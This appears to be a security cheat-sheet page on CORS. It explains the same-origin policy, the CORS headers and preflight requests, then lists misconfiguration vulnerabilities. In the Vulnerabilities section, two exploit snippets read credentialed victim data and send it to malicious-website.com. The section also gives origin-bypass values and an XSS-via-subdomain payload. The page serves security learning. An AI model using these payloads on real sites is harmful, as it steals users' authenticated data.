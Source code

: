 # CORS

<details>

<summary>Same-origin policy (SOP)</summary>

* The same-origin policy restricts scripts on one origin from accessing data from another origin.

<!---->

* An origin consists of a URI scheme, domain and port number.

<!---->

* The SOP prevents a malicious website from running JS in a browser to read data from a third-party website. (There are various exceptions)

<!---->

* The SOP allows embedding of images via the `<img>` `<video>` `<script>`.
  * However, while these external resources can be loaded by the page, any JavaScript on the page won't be able to read the contents of these resources.

</details>

<details>

<summary>Cross-origin resource sharing</summary>

The cross-origin resource sharing specification provides controlled relaxation of the same-origin policy. The CORS specification identifies a collection of protocol headers

* `Origin` header added by the browser.
  * ```
    Origin : https://normal-website.com
    ```
* `Access-Control-Allow-Origin` returned by a server when a website requests a cross-domain resource.
  * ```http
    Access-Control-Allow-Origin: https://normal-website.com
    ```

This means that the browser will allow code running on normal-website.com to access the response because the origins match.

Note: `Access-Control-Allow-Origin` is returned only if the whitelisted values or `*` or `null` matched the Origin.



**Access-Control-Allow-Origin: \***

The use of the wildcard `*` is restricted in the specification as you cannot combine the wildcard with the cross-origin transfer of credentials (authentication, cookies or client-side certificates). This following response is not permitted

```http
Access-Control-Allow-Origin: *
Access-Control-Allow-Credentials: true
```



**Access-Control-Allow-Origin: null**

Specifies that only origins with a `null` origin are allowed to access the resource. Browsers might send the value `null` in the Origin header in various unusual situations:

* Cross-origin redirects.
* Requests from serialized data.
* Request using the `file` protocol.
* Sandboxed cross-origin requests.

</details>

<details>

<summary>Pre-flight checks</summary>

Under certain circumstances, when a cross-domain request includes a non-standard HTTP method or headers, the cross-origin request is preceded by a request using the OPTIONS method.

For example, this is a pre-flight request that is seeking to use the PUT method together with a custom request header called Special-Request-Header

```http
OPTIONS /data HTTP/1.1
Host: <some website>
...
Origin: https://normal-website.com
Access-Control-Request-Method: PUT
Access-Control-Request-Headers: Special-Request-Header
```

```http
HTTP/1.1 204 No Content
...
Access-Control-Allow-Origin: https://normal-website.com
Access-Control-Allow-Methods: PUT, POST, OPTIONS
Access-Control-Allow-Headers: Special-Request-Header
Access-Control-Allow-Credentials: true
Access-Control-Max-Age: 240
```

* This response sets out the allowed methods (PUT, POST and OPTIONS) and permitted request headers (Special-Request-Header). In this particular case the cross-domain server also allows the sending of credentials (authentication, cookies or client-side certificates), and the Access-Control-Max-Age header defines a maximum timeframe for caching the pre-flight response for reuse
* More info about preflight: https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS#preflighted\_requests

</details>

## <mark style="color:yellow;">Vulnerabilities</mark>

**Server-generated ACAO header from client-specified Origin header**

Some app read the Origin header from requests and including a response header stating that the requesting origin is allowed.

Detection&#x20;

Send request with `Origin: https://example.com` and see if the origin is reflected in the `Access-Control-Allow-Origin` header.

Exploit

```html
<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
	location='//malicious-website.com/log?key='+this.responseText;
};
</script>
```

***

**Errors parsing Origin headers**

* Some apps enable access from various sources through a whitelist of permitted origins
* Suppose `normal-website.com`
* Use as origin: `hackersnormal-website.com` or `normal-website.com.evil-user.net`

{% hint style="info" %}
**Note**: you need to know the whitelisted origins.
{% endhint %}

***

**Whitelisted null origin value**

Detection

Send request with `Origin: null` and see if the response has `Access-Control-Allow-Origin: null`

Exploit

```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
location='https://malicious-website.com/log?key='+this.responseText;
};
</script>"></iframe>
```

***

#### Exploiting XSS via CORS trust relationships <a href="#exploiting-xss-via-cors-trust-relationships" id="exploiting-xss-via-cors-trust-relationships"></a>

Suppose that:

```http
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://subdomain.vulnerable-website.com
Access-Control-Allow-Credentials: true
```

If you find an XSS on `subdomain.vulnerable-website.com` inject JavaScript that uses CORS and retrieve information.

```
https://subdomain.vulnerable-website.com/?xss=<script>cors-stuff-here</script>
```
